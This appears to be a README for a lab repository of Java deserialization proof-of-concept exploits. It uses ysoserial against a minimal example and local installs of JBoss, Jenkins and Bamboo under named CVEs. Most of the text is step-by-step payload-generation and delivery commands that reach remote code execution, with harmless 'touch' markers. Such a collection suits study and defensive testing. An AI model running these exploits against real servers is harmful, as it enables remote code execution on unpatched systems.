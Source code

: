 Here there are practical examples of the - deserialization of untrusted objects - vulnerability.

These PoCs use the [ysoserial](https://github.com/frohoff/ysoserial/) tool to generate exploits.

# Pocs

Minimal Example
---------------------------------
- Use java 8
```
cd MinimalExample
java -jar ../ysoserial-master-v0.0.5-gb617b7b-16.jar CommonsCollections6 "/tmp/exploit.sh">payload.ser 
cp ./exploit.sh /tmp
chmod +x /tmp/exploit.sh
javac Employee.java
javac DeSerializingObject.java
java -classpath .:apache-collections-commons-collections-3.1.jar DeSerializingObject 
```
- You will find a file "pwned" in /tmp. This means that the attack has been completed correctly with a RCE.

JBOSS (CVE-2016-7065)
---------------------------------


- Download a vulnerable version of Jboss (in this case you can find the v5.1.0) 
- Check if you have installed the JDK 1.8
- Run jboss: java -jar ./JBoss/jboss-5.1.0.GA/bin/run.jar
- Download and open Burp: setup your proxy on localhost:9090
- In your browser start proxy on localhost:9090
- Generate the payload with ysoserial: java -jar ysoserial.jar CommonsCollections5 "touch /tmp/JbossVulnerable.txt" > JbossPayload.ser or use the payload inside the folder JBoss
- Open localhost:8080/invoker/JMXInvokerServlet
- In Burp "paste from file" and choose JbossPayload.ser
- Checkout in /tmp folder the execution of "touch /tmp/JbossVulnerable.txt"



Jenkins (CVE-2015-8103)
---------------------------------

- Download a vulnerable version of Jenkins (in this case you can find the v1.649
- Check if you have installed the JDK 1.8
- java -jar ./jenkins-war-1.649.war
- java -cp ysoserial-master-v0.0.5-gb617b7b-16.jar ysoserial.exploit.JenkinsListener http://localhost:8080 CommonsCollections5 "touch /tmp/JenkinsVulnerable.txt"



Bamboo (CVE-2015-6576)
---------------------------------

- Download and install openjdk 1.7
	sudo add-apt-repository ppa:openjdk-r/ppa  
	sudo apt-get update   
	sudo apt-get install openjdk-7-jdk  
- Download and install vulnerable version of Bamboo (v5.4.3 in this case) 
- Create folder /home/user/bamboohome/
- Add/update the property /Bamboo/atlassian-bamboo-5.4.3/atlassian-bamboo/WEB-INF/classes/bamboo-init.properties with
	bamboo.home=/home/user/bamboohome
- Get fingerprint -> localhost:8085/agentServer/GetFingerprint.action?agentType=elastic
- Generate payload with ysoserial
- Open localhost:8085/agentServer/message?fingerprint<copied fingerprint> and "copy from file" in burp
	java -jar ysoserial.jar CommonsCollections4 "touch /tmp/BambooVulnerable.txt" > BambooPayload.ser 
  or use the payload inside the folder JBoss


# Ysoserial stacktraces

Find them in the /Ysoserial-stacktraces directory

# References and readings
https://github.com/EdoardoVignati/ysoserial/blob/master/biblio.bib

Other references:

https://www.slideshare.net/codewhitesec/exploiting-deserialization-vulnerabilities-in-java-54707478

https://askubuntu.com/questions/761127/how-do-i-install-openjdk-7-on-ubuntu-16-04-or-higher


# Defenses
https://link.springer.com/chapter/10.1007/978-3-030-00470-5_21


